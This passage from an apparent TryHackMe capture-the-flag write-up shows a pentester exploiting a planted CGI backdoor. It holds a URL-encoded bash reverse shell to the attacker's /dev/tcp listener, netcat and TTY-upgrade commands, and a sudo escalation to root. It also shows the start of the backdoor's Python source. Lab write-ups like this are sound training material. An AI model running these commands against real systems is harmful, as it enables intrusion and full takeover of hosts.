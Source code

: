 We see that the command is executed. We can start a listener on our attack host and execute a reverse shell on the target using this backdoor.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/WhyHackMe]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```

```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/WhyHackMe/Misc File]
└─$ curl --insecure 'https://10.10.141.69:41312/cgi-bin/5UP3r53Cr37.py?key=<REDACTED>&cmd=bash+-c+%27%2Fbin%2Fbash+-i+%3E%26+%2Fdev%2Ftcp%2F10.21.68.180%2F1234+0%3E%261%27'
```

When we return to our listener, we will notice a reverse connection from the target.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/WhyHackMe]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.21.68.180] from (UNKNOWN) [10.10.141.69] 51376
bash: cannot set terminal process group (910): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<bin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/usr/lib/cgi-bin$ ^Z
zsh: suspended  nc -lvnp 1234

┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/WhyHackMe]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1234
                               TERM=xterm
www-data@ubuntu:/usr/lib/cgi-bin$
```

When we enumerate this new user's sudo rights, we will see that the www-data user can run any command as root. Hence we can use this account to log in as root and read the root's flag.
```bash
www-data@ubuntu:/usr/lib/cgi-bin$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL

www-data@ubuntu:/usr/lib/cgi-bin$ sudo su
root@ubuntu:/usr/lib/cgi-bin# ls /root
bot.py  root.txt  snap  ssh.sh
```

To further our understanding of how this backdoor functioned we can access it in the `/usr/lib/cgi-bin` directory.
```bash
root@ubuntu:/usr/lib/cgi-bin# cat 5UP3r53Cr37.py 
```
```python
#!/usr/bin/python3
from Crypto.Cipher import AES
import os, base64
import cgi, cgitb
print("Content-type: text/html\n\n")
enc_pay = b'k/1umtqRYGJzyyR1kNy3Z+m6bg7Xp7PXXFB9sOih2IPNBRR++jJvUzWZ+WuGdax2ngHyU9seaIb5rEqGcQ7OJA=='
form = cgi.FieldStorage()
try:
        iv = bytes(form.getvalue('iv'),'utf-8')
        key = bytes(form.getvalue('key'),'utf-8')
        cipher = AES.new(key, AES.MODE_CBC, iv) 
```